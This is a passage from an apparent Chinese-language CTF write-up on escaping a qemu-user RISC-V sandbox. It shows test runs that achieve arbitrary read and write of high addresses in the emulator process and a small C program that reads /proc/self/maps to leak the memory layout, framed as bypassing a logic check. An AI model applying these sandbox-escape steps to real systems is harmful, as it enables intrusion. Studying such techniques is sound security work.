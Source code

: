 仍然是编译后运行，根据通过进程内存布局测试内存，成功的写了一个高地址的内存：

```c
$ riscv64-linux-gnu-gcc -static test.c -o test
$ qemu-riscv64 ./test
read or wirte?
r
addr: 7f1676a24000
data: 2de68
read or wirte?
w
addr: 7f1676a24000
data: deadbeef
OK
read or wirte?
r    
addr: 7f1676a24000
data: deadbeef
read or wirte?
```

猜测这个性质应该是所有的qemu-user模拟都可以，而不止是risc-v，同理测试其他架构，发现只要是64位架构都可以，但如果是32位架构，则天生无法寻址高地址空间，故天生安全，测试如下：

```c
$ aarch64-linux-gnu-gcc -static test.c -o test
$ qemu-aarch64 ./test
read or wirte?
r
addr: 7f79b798d000
data: 10102464c457f
read or wirte?
^C

$ arm-linux-gnueabi-gcc -static test.c -o test
$ qemu-arm ./test
read or wirte?
r
addr: 7f04c7849000
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
[1]    44724 segmentation fault (core dumped)  qemu-arm ./test
```

##### 绕过：简单的逻辑检查

所以现在我们有的能力除了risc-v的有限制系统调用的代码执行，另外还能对整个qemu-user的进程的用户态内存空间的任意地址读写。所以现在需要泄露内存布局，尝试用openat读/proc/self/maps泄露内存布局：

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
int main(){
    char buf[0x1000]={0};
    int fd = openat(0,"/proc/self/maps",0);
    read(fd,buf,0x1000);
    write(1,buf,0x1000);
}
```
